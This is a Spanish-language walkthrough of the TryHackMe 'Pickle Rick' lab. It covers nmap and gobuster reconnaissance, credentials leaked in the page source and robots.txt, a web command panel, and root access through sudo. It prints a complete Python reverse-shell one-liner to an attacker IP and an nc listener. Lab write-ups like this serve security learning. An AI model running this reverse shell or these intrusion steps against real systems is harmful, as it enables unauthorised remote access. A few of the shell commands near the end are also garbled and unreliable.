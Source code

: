 ''' 
https://tryhackme.com/room/picklerick
PICKEL RICK --> EASY
'''

' ' ' '
----> ESCANEO                                         

Para comenzar con esta máquia una vez que la inciamos en TryHackMe utilizaremos
el ping con el objetivo de saber qué ttl nos resuelve esto mediante una traza ICMP:                                                

$ ping -c 1  10.10.209.28                                                    

Gracias a esto conocemos el sistema operativo                                
mediante el ttl.                                                            

----> MAPEO DE PUERTOS:

Para comenzar con el scaneo de los puerto utilizo este script de nmap el cual
está optimizado para que sea lo suficientemente rápido y no perder tiempo:   

$ sudo nmap -sS --min-rate 5000 --open -n -Pn -vvv 10.10.209.28 -oG ScanPort 

Con el script anterior lo que hacemos es analizar de manera general todos los
puertos abiertos y después sacar los puertos abierto y poder escanearlos con 
el siguiente scritp de forma detallada                                       

$ nmap -sC -sV -p22,80 10.10.209.28 -oN Ports                                
De esta forma con ambos scripts ya conseguimos lo que necesitamos acerca de  
los servicios que manejan cada puerto.                                       
De antemano vemos que devuelve un puerto 80, esto ya nos da la información    
que maneja un servidor web por lo que vamos a explorar dicha página web.     

Entrando a la página no encontramos nada importante en el frontend o interfaz
por lo tanto daremos ctrl+u para ver el código fuente por si encontramos algo
que sean indicios de algo. Analizando el código fuente vemos comentarizado
lo siguiente:                                                                

Username: R1ckRul3s                                                          

Normalmente nombres así pueden ser potenciales usuarios para poder hacer el
ataque necesario. Pero no es todo, de esta misma forma podemos encontrar
contraseñas.
Como forma adicional podemos ver que existe un directorio por el que se manda
a llamar la imagen que esta en el inicio, nos dirijiremos mediante la url a
este directorio

--> http://10.10.209.28/assets/
De esta forma hacemos el movimiento de directorio, pero ya estando dentro nos
damos cuenta que no hay mas que imagenes pero sabemos que hay mas directorios
por lo tanto utilizaremos el enumeramiento de directorios con gobuster en mi
caso pero usa el de tu preferencia:

gobuster dir -u http://10.10.209.28/ -w /usr/share/wordlists/dirbuster/direct
ory-list-2.3-medium.txt -x php,txt,py,zip,html

Una vez termine vemos que existe un documento robots.txt, estos documentos
suelen tener información bastante sensible, por lo tanto siempre hay que
buscarlos pues nos serian de gran ayuda
Bien, ya entrando desde el link de la misma forma que con la carpet assets lo
hacemos pero poniendo /robots.txt y así nos dirigiremos a dicho archivo.
NOTA: el traversal se hace mediante la url de la página.

frase encontrada: Wubbalubbadubdub
Potencialmente puede ser la contraseña del usuario que encontramos

Como información adicional del gobuster encontramos 2 archivos .php pero uno
viene como login.php, por lo tanto abriremos primero eso de la misma forma
que abrimos los demás archivos. Una vez abierto los dos vemos que nos dirijen
al mismo login por lo tanto no haremos mas que intentar burlar este login.
Lo primero a intentar es utilizar credenciales por defecto como:             
_________________                                                            
| user  |  pass |  Entre otras contraseñas, pero al no coincidir con estas   
|-------|-------|  primers dos, lo mas recomendable es probar con lo que ya  
| root  |  root |  tenemos:                                                  
| admin | admin |  Username: R1ckRul3s                                       
-----------------  Password: Wubbalubbadubdub                                
                                                                             
Utilizando estas credenciales vemos que nos da acceso a un panel de ejecucion
algunas veces nos pueden dar este tipo de paneles con una bash, pero primero 
hay que ver qué tipo de comandos ejecuta. Al buscar y probar comando de dife-
rente lenguajes, me di cuenta que es terminal de comandos, por lo tanto con
los siguientes comando averiguaremos quienes somos, donde estamos y que hay
donde yo estoy:                                                              

$ pwd    --> en que directorio estamos
$ whoami --> quien soy en el sistema
$ ls     --> lista directorio actual

con el comando ls encontramos el archivo donde encontraremos una flag o
ingrediente, utilizamos varios comando, pero nos damos cuenta que no deja uti
lizar el comando cat y nano, por lo tanto usaremos strings, con esto logramos
ver el contenido del archivo, y asi ver el de los demas archivos y listo     
primera flag econtrada.                                                      
para una reverse shell buscaremos que haya python en cualquier version o en  
su defecto perl, ruby o php, asi podremos ejecutarla                         
para probar python usaremos un comando simple y veremos si nos da un output  
$ python3 -c "print('hello world')"                                          
                                                                             
y nos devuelve un output deseado, por lo tanto usaremos la siguiente reverse 

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.152.61",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

cambiamos la IP a nuestra IP de la vpn y ponemos un el puerto 1234 en escucha para
la reverse shell con el comando:

$ nc -lnvp 1234
NOTA: ejecutaremos primero la instruccion del puerto en escucha en nuestra terminal,
la reverseshell la actualizaremos con nuestra IP y esa se ejecuta directamente en la 
webshell que esta en el navegador.

De esta forma obtenemos acceso a la máquina desde nuestra terminal, mucho mas cómodo
ahora veremos con los mismos comandos quiénes somos, donde estamos y que hay donde estamos,
estamos situados exactamente en el mismo lugar que la webshell. Encontraremos la forma de
convertirnos en root, probaremos lo mas sencillo, cambiarnos a root para ver si mínimo
no tiene credenciales de autenticación:
$ sudo su
$ whoami

despues de la ejecucion de estos dos comando vemos que no necesitabamos credenciales para
poder hacernos root, hay hacemos path traversal a la carpeta /home de ahí nos dirigimos a 
la carpeta rick
$ cd /home
$ ls /rick

vemos que tiene un archivo con la segunda flag, la abrimos con strings y listo

$ cd rick ; xargs strings "second ingredients"

ahora nos dirigiremos al directorio raiz y nos moveremos hasta root y el mismo procedimiento
listamos
$ cd ../../root | xargs strings 3rd.txt

y listo, máquina resuelta.

Espero te haya gustado, es una máquina bastante sencilla, muy fácil para empezar de 0 y 
conocer acerca de explotacion y busqueda de vulnerabilidades, cualquier duda
mandar mensaje directo por discord, espero haberte enseñado algo nuevo c:

Discord: MrGh057#4905